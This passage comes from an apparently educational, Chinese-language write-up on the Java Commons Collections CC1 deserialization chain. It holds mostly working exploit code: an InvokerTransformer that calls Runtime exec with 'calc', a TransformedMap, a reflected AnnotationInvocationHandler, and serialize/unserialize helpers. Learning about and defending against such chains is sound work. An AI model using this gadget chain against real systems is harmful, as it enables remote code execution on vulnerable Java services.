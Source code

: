 ```plain
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

### EXP问题：

#### `Runtime`类不可实例化：

我们可以看到整条链子我们已经顺下来了，但是我们最后传入的r = Runtime.getRuntime()并没有serializable接口，不能够序列化，所以这里我们要进行反射调用，从Runtime的class属性入手进行反射

```plain
Class c = Runtime.class;
Method getRuntimeMethod = c.getMethod("getRuntime",null);
Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
Method execMethod = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```

然后我们来转化一下，用`InvokerTransformer`类中的`transform`方法来进行构造：

```plain
public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);

        }
```
